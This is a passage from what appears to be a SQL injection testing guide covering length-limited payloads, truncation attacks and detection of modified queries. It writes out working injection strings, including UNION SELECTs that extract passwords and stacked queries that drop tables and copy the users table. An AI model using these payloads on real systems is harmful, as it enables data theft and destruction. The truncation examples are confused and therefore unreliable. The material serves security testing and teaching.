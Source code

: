 **Length Restriction Testing**
```sql
-- Short payload constraint
Normal payload: ' UNION SELECT user(),database()--
Length restricted: ' OR 1=1#

-- Compound payload approach
First request: '; DROP TABLE temp--
Second request: '; CREATE TABLE temp AS SELECT * FROM users--
Third request: '; SELECT * FROM temp--
```

### Detecting Truncation Issues

Truncation vulnerabilities occur when input length restrictions are improperly implemented.

#### Truncation Attack Scenarios

**Password Truncation**
```sql
-- Registration with long username
Username: admin_hacker[...250 characters...]
Password: attacker_password

-- Database truncation
Stored username: admin_hacker (truncated at limit)
Stored password: attacker_password

-- Login attempt
Username: admin_hacker
Password: attacker_password (successful authentication)
```

**SQL Query Truncation**
```sql
-- Long injection payload
Input: normal_value[...long string...] AND 1=1--

-- Truncated execution
Executed query: SELECT * FROM products WHERE name = 'normal_value[truncated]'
Result: Bypasses intended WHERE clause limitations
```

### Detecting SQL Modification

#### Query Structure Modification Detection

**SELECT Statement Modification**
```sql
-- Original query intent
SELECT product_name FROM products WHERE category = 'USER_INPUT'

-- Modified query structure
SELECT product_name FROM products WHERE category = '' UNION SELECT password FROM users--'

-- Detection indicators
- Different column data in response
- Additional result rows
- Unexpected data types
```
